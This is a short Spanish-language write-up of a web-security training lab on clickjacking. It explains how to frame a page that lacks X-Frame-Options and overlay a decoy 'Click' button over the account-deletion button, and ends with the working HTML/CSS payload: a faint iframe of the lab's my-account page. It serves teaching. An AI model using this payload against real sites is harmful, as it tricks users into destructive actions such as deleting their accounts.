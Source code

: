 Este laboratorio muestra cómo realizar un ataque de clickjacking incluso cuando la acción sensible está protegida por un token CSRF. Se aprovecha la falta de encabezados de protección como X-Frame-Options para incrustar la página vulnerable dentro de un iframe en un sitio externo.

La estrategia consiste en superponer un elemento visual atractivo como un botón que diga Click me justo encima del botón de eliminar cuenta. Para ello se ajustan las propiedades de posición, tamaño y opacidad del iframe de forma que el usuario, al intentar hacer clic en el contenido visible del sitio señuelo, en realidad pulse sobre la acción destructiva del sitio objetivo.

Este tipo de ataque es posible cuando no existen medidas que impidan la carga del sitio objetivo en iframes de terceros, y es aún más efectivo cuando el usuario realiza la acción de manera involuntaria al seguir una instrucción aparentemente inofensiva como haz clic aquí.

Este laboratorio permite comprender cómo técnicas visuales engañosas pueden ser tan efectivas como vulnerabilidades técnicas si la interfaz no está debidamente protegida.

Solucion
Basicamente en este laboratorio es engañar al usuario para que le de en un boton donde el texto esta disfrazado 
Aqui el payload
<style>
    iframe {
        position:relative;
        width: 500px;
        height: 600px;
        opacity: 0.1;
    }
    div {
        position:absolute;
        top: 500px;
        left: 40px;
    }
</style>
<div>Click</div>
<iframe src="https://0a8800b9034fe4b880dd9e3e0002001c.web-security-academy.net/my-account"></iframe>

![[Pasted image 20250724215309.png]]

